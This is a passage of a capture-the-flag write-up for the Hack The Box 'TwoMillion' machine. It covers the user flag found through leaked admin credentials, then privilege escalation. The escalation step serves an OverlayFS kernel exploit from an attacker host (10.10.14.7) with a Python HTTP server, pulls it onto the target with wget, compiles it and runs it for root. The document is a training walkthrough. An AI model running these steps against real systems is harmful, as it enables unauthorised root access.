 ![[env_credentials.png]]

This file contains the admin credentials. We also retrieve the **user flag**:

![[GitHub Documentation/EASY/HTB_TwoMillion_Writeup/screenshots/user_flag.png]]

---
## 7. Privilege Escalation

Searching for files owned by `admin`:

```bash
find / -user admin 2>/dev/null | grep -vE "sys|proc"
```

![[find_user.png]]

We discover `/var/mail/admin`, which contains a hint about an unpatched **OverlayFS vulnerability**.

We download the exploit from GitHub, host it with Python, and transfer it:

```bash
python3 -m http.server 80
wget http://10.10.14.7/file.zip
unzip file.zip
make all
```

![[unzip_file_in_victims_machine.png]]  
![[execute_make_all.png]]

Log in as admin via SSH using the leaked credentials:

![[ssh_admin.png]]

Execute the exploit:

```bash
./exp
```

![[GitHub Documentation/EASY/HTB_TwoMillion_Writeup/screenshots/root_flag.png]]

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path
